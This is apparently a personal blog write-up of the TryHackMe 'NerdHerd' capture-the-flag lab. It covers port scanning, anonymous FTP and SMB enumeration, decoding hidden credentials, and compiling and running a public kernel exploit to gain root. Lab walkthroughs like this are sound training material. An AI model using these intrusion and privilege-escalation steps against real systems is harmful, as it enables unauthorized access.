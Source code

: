 ```yaml
---
layout: default
title : NerdHerd - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 06, 2020**_

[NerdHerd](https://tryhackme.com/room/nerdherd) Writeup

## Nmap Scan :
```
bvr0n@kali:~$ nmap -sC -sV 10.10.203.70
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Sep 11 03:45 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.14.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0c:84:1b:36:b2:a2:e1:11:dd:6a:ef:42:7b:0d:bb:43 (RSA)
|   256 e2:5d:9e:e7:28:ea:d3:dd:d4:cc:20:86:a3:df:23:b8 (ECDSA)
|_  256 ec:be:23:7b:a9:4c:21:85:bc:a8:db:0e:7c:39:de:49 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: NERDHERD; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
1337/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: Host: NERDHERD; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -36m51s, deviation: 1h09m15s, median: 3m07s
|_nbstat: NetBIOS name: NERDHERD, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: nerdherd
|   NetBIOS computer name: NERDHERD\x00
|   Domain name: \x00
|   FQDN: nerdherd
|_  System time: 2020-11-06T20:27:25+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-06T18:27:26
|_  start_date: N/A
```

## FTP :

login to FTP we get a directory `/pub`, Enumerate it to get some juicy stuff :
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ ncftp 10.10.203.70
ncftp /pub > ls -la
drwxr-xr-x    2 ftp      ftp          4096 Sep 14 18:35 .*****onyou
-rw-rw-r--    1 ftp      ftp         89894 Sep 11 03:45 youfoundme.png
ncftp /pub > cd .*****onyou   
ncftp /pub/.*****onyou > ls
hellon3rd.txt
```
After grabbing the image, i ran exiftoot on it and got this, This we'll use later :
```
Owner Name                      : fijbxslz
```

## Web Enum :

going to the web page and brute force directories we get a `/admin` that had something in the code source :

```
<!--
	these might help:
		Y2liYXJ0b3dza2k= : aGVoZWdvdTwdasddHlvdQ==
-->
```
When we decrypt it it gives :
```
Y2liYXJ0b3dza2k= : cibartowski
aGVoZWdvdTwdasddHlvdQ== : hehegou<.jÇ].[ÝD
```

## SMB :

```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ nbtscan 10.10.203.70

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
10.10.203.70     NERDHERD         <server>  NERDHERD         00:00:00:00:00:00
```

```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ smbclient --no-pass -L 10.10.203.70

Sharename       	        Type      Comment
---------       	        ----      -------
print$          	        Disk      Printer Drivers
********_********** 	    	Disk      Samba on Ubuntu
IPC$            	        IPC       IPC Service (nerdherd server (Samba, Ubuntu))
```
I tried accessing the `********_**********` but we need a valid user to login with, so i tried this :
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ enum4linux 10.10.203.70
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Nov  6 14:06:12 2020

 ========================== 
|    Target Information    |
 ========================== 

Target ........... 10.10.203.70
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
 
============================= 
|    Users on 10.10.203.70    |
 ============================= 

index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: *****    Name: ChuckBartowski    Desc: 

user:[chuck] rid:[0x3e8]
```

Looks like user `*****` have access to the shared folder, i tried accessing it with the creds i got earlier, but nothing!! so i asked the author!! this one `fijbxslz` was `Vigenere
Cipher` ! And the key to decrypt it is the youtube title we got earlier :
```
Key : ****istheword
Password : ****pass
```
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ smbclient -U ***** //10.10.203.70/********_**********
Enter WORKGROUP\*****'s password: 
smb: \> dir
  secr3t.txt                          N      125  Thu Sep 10 21:29:53 2020
```
And we have access to the shared folder.

inside the file we get a directory and that leed us to ssh creds :))


## Internal Enum :

When i ran linpeas i noticed that this machine is running an outdated kernel :
```
chuck@nerdherd:~$ uname -a
Linux nerdherd 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

I searched for it and i found this [Exploit](https://www.exploit-db.com/exploits/45010)

I downloaded the exploit into my machine and transferred it to the victims machine :

```
*****@nerdherd:~$ gcc 45010.c -o exploit
*****@nerdherd:~$ chmod +x exploit 
*****@nerdherd:~$ ./exploit 
root@nerdherd:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(chuck)
```

And we got ROOOOT :)))

For the root flag i did someting like this :
```
root@nerdherd:/root# find / -user root -type f -iname "*.txt"
```
Accourding to the room hint, the bonus flag is 100% located in `.bash_history`.


<br>
best regards

[bvr0n](https://linkedin.com/in/taha-el-ghadraoui-5921771a5)


<br>
[back to main()](https://bvr0n.github.io/)

<br>
